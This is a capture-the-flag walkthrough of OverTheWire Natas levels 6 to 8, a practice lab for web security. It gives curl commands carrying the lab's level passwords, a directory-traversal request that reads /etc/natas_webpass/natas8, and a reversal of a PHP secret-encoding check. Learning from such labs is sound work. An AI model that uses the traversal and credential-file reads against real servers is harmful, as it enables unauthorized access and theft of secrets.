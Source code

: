 ## natas6

A secret value is in a */includes/secret.inc*

```sh
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

Send it to the server and get the password

```sh
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 --data "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit+Query" http://natas6.natas.labs.overthewire.org | grep "password for natas7"
```

## natas7

```sh
curl --silent --user natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org
```

There are 2 url in here, and its format is *index.php?page=/path/to/file*. With one more hint: `password for webuser natas8 is in /etc/natas_webpass/natas8`. It is Directory Traversal vulnerability (in a basic)

```sh
curl --silent --user natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

## natas8

```sh
curl --silent --user natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe http://natas8.natas.labs.overthewire.org
```

```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
```

```
bin2hex(strrev(base64_encode($_POST['secret']))) = "3d3d516343746d4d6d6c315669563362"
$_POST['secret'] = base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")))
$_POST['secret'] = "oubWYf2kBq"
```
